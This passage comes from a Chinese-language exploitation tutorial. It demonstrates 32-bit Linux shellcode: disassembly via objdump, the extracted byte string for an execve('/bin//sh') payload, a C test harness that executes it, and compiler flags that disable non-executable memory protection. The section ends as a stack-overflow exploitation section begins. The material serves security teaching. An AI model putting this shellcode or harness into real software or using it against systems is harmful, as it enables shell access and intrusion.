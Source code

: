 ```shell
$gcc -m32 test.c -o shellcode
$./shellcode
sh-4.2#     #进入shell了
```

这里是采用内联（inline）汇编的方式测试的shellcode，也可以用汇编器as直接编译汇编代码，用pwntools工具可以直接编译shellcode等。

### 提取shellcode

一种比较原始的shellcode提取方法是采用objdump命令。

```shell
$objdump -d shellcode
...
080483dd <shellcode>:
 80483dd:	55                   	push   %ebp
 80483de:	89 e5                	mov    %esp,%ebp
 80483e0:	31 c0                	xor    %eax,%eax //从这里开始
 80483e2:	50                   	push   %eax
 80483e3:	68 2f 2f 73 68       	push   $0x68732f2f
 80483e8:	68 2f 62 69 6e       	push   $0x6e69622f
 80483ed:	89 e3                	mov    %esp,%ebx
 80483ef:	50                   	push   %eax
 80483f0:	53                   	push   %ebx
 80483f1:	89 e1                	mov    %esp,%ecx
 80483f3:	99                   	cltd   
 80483f4:	b0 0b                	mov    $0xb,%al
 80483f6:	cd 80                	int    $0x80
 ...
```

以上这段的机器码就是我们的shellcode 了，`shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"`。

测试（以下代码是通用的shellcode测试程序，其他的shellcode只需要修改shellcode数组中的字符串）：

```c
char shellcode[] ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";

int main() {
    void(*f)()=(void(*)())shellcode;  //强类型转换，将shellcode数组转换为函数指针
    f();
    return 0;
}
```

编译需加上栈可执行选项，`gcc -z execstack -m32 test.c -o shellcode`，因为shellcode是函数外部的变量，存储在全局字符数组中，位于.data section中，默认是不可执行的。所以需要加上选项-z execstack，开启栈/堆/数据段可执行。之后运行`./shellcode`t可以正常进入shell，表明shellcode构造成功。

## 栈溢出简单利用

### 计算缓冲区长度
